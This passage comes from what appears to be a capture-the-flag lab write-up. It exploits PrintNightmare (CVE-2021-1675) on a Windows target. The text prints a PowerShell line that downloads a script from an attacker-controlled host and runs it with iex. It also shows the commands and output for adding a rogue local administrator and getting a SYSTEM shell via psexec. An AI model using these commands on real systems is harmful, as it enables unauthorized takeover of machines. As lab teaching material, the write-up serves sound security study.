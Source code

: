 

However, I can just `Invoke-Expression` (or `iex`) the code. I can do so
right from the webserver:



    PS C:\programdata> iex(new-object net.webclient).downloadstring('http://10.10.14.7/CVE-2021-1675.ps1')



Or from the local copy:



    PS C:\programdata> iex(cat in.ps1 -raw)



Either way, the code is now loaded. Now I can run it to add a user:



    PS C:\programdata> Invoke-Nightmare -NewUser "0xdf" -NewPassword "0xdf0xdf"
    Invoke-Nightmare -NewUser "0xdf" -NewPassword "0xdf0xdf"
    [+] created payload at C:\Users\jason\AppData\Local\Temp\nightmare.dll
    [+] using pDriverPath = "C:\WINDOWS\System32\DriverStore\FileRepository\ntprint.inf_amd64_c62e9f8067f98247\Amd64\mxdwdrv.dll"
    [+] added user 0xdf as local administrator
    [+] deleting payload from C:\Users\jason\AppData\Local\Temp\nightmare.dll



With admin priv, I can PSExec to get remote execution as SYSTEM:



    oxdf@parrot$ psexec.py 0xdf:0xdf0xdf@10.10.10.237 cmd.exe
    Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

    [*] Requesting shares on 10.10.10.237.....
    [*] Found writable share ADMIN$
    [*] Uploading file oxypGsJo.exe
    [*] Opening SVCManager on 10.10.10.237.....
    [*] Creating service WIad on 10.10.10.237.....
    [*] Starting service WIad.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.19042.906]
    (c) Microsoft Corporation. All rights reserved.

    C:\WINDOWS\system32>whoami
    nt authority\system







